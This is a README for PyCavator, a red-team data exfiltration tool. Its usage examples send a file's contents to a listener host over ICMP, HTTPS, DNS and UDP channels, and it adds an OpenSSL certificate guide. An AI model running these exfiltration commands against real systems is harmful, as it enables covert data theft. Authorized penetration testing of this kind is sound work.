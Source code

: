 # PyCavator

PyCavator is a versatile Python-based tool designed for authorized red teaming, penetration testing activities, and educational purposes. It provides a simple and efficient way to send and receive data through various network protocols. The tool features a sender mode for data exfiltration and a listener mode for receiving incoming data, which can be saved in chunks or as a single file. With its flexibility and ease of use, PyCavator streamlines secure data transfer during cybersecurity assessments.

- [PyCavator](#pycavator)
  * [Installation](#installation)
  * [Usage](#usage)
    + [ICMP](#icmp)
    + [HTTPS](#https)
	+ [DNS](#dns)
	+ [UDP](#udp)
  * [How to Contribute](#how-to-contribute)
  * [Disclaimer](#disclaimer)
  * [License](#license)

## Installation

PyCavator requires Python 3 to be installed. To install PyCavator, clone the repository and install the required Python modules:

```bash
git clone https://github.com/kryptohaker/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## Usage

### ICMP 

<b>Required libraries:</b><br/>
- All libraries are part of the default Python installation.<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
```bash  
python pycavator-icmp.py -f input.txt -d 192.168.1.101
```  
  <b>Listener mode: listen for incoming data and save in chunks</b><br/>
```bash
python pycavator-icmp.py -l -s 192.168.1.100 -w c
```  
  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
```bash  
python pycavator-icmp.py -l -s 192.168.1.100 -w s -o output_folder
```  
  <b>Merge mode: merge output files with part numbers in the specified range</b><br/>
```bash
python pycavator-icmp.py --merge -x output -a 1 -b 10 -e txt -o output_folder
```

### HTTPS 

<b>Required libraries:</b><br/>
- `requests`: used for sending HTTP requests<br/>
- `Flask`: used for creating the web server<br/>
- `ssl`: used for configuring SSL/TLS encryption<br/>
- `urllib3`: used for disabling SSL warnings<br/>

#### Examples:
  <b>Sender mode: exfiltrate data from a file</b><br/>
```bash
python pycavator-https.py -f input.txt -d 192.168.1.101 -p 4443 -ca ca.pem -t "eyJhbGciO..._adQssw5c"
```
> If in the target machine installation of required libraries is not possible, use `pycavator-httpsender.py` instead.

  <b>Listener mode: listen for incoming data and save to a single file</b><br/>
```bash
python pycavator-https.py -l -s 192.168.1.100 -p 4443 -pb cert.pem -pk key.pem -o /tmp -t "eyJhbGciO..._adQssw5c"
``` 

#### Generating a Key, CSR, and Certificate with OpenSSL

This guide explains how to use OpenSSL to generate a new private key, create a certificate signing request (CSR) with the private key, sign the CSR to create a digital certificate, and display the contents of the certificate.

<b>Prerequisites:</b><br/>
- OpenSSL installed on your system.

##### Steps

Generate a new private key:
```bash
openssl genrsa -out key.pem 2048
```
This command generates a new RSA private key with a length of 2048 bits, and saves it to a file named `key.pem`.

Create a CSR with the private key:
```bash
openssl req -new -key key.pem -out csr.pem
```
This command creates a new certificate signing request (CSR) using the private key stored in the `key.pem` file, and saves the CSR to a file named `csr.pem`.

Sign the CSR to create a digital certificate:
```bash
openssl x509 -req -days 1 -in csr.pem -signkey key.pem -out cert.pem
```
This command uses the private key stored in the `key.pem` file to sign the CSR stored in the `csr.pem` file, and saves the resulting digital certificate to a file named `cert.pem` (is the output file that contains the public key). The `-days 1` option sets the validity period of the certificate to one day.

Display the contents of the certificate:
```bash
openssl x509 -text -noout -in cert.pem
```
This command displays the textual representation of the digital certificate stored in the `cert.pem` file, without the header or footer information.

Create a self-signed root certificate authority:
```bash
cp cert.pem ca.pem
```
This command copies the contents of the `cert.pem` file to a new file named `ca.pem`. This is often done to create a self-signed root certificate authority (CA), which can be used to sign other certificates for internal use.

### DNS
<b>Required libraries:</b><br/>
- dns.query<br/>
- dns.message<br/>
- dns.resolver<br/>

#### Examples:
<b>Sender mode: exfiltrate data from a file:</b>
```bash
  python pycavator-dns.py -f input.txt -s 192.168.1.101 -p 53 -d example.com -i 1 
```  
<b>Listener mode: listen for incoming data and save to a single file:</b>
```bash
  python pycavator-dns.py -l -s 192.168.1.101 -p 53 -o /tmp
```  
>Note: Once file has been sent, use `CTRL+C` in listener mode to exit and save. 

### UDP

#### Examples:
<b>Sender mode: exfiltrate data from a file:</b>
```bash
python pycavator-udp.py -f input.txt -s 192.168.1.101 -p 53 -i 1 
```  
<b>Listener mode: listen for incoming data and save to a single file:</b>
```bash
python pycavator-udp.py -l -s 192.168.1.101 -p 53 -o /tmp
```

## How to Contribute

If you would like to contribute to PyCavator, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International (CC BY-NC-SA 4.0) License. This means that you are free to share and distribute the original work with proper attribution to the original author, but you may not use it for commercial purposes. Additionally, any new versions of the work must be distributed under the same license and with proper attribution to the original author. See the [LICENSE](LICENSE) file for details.




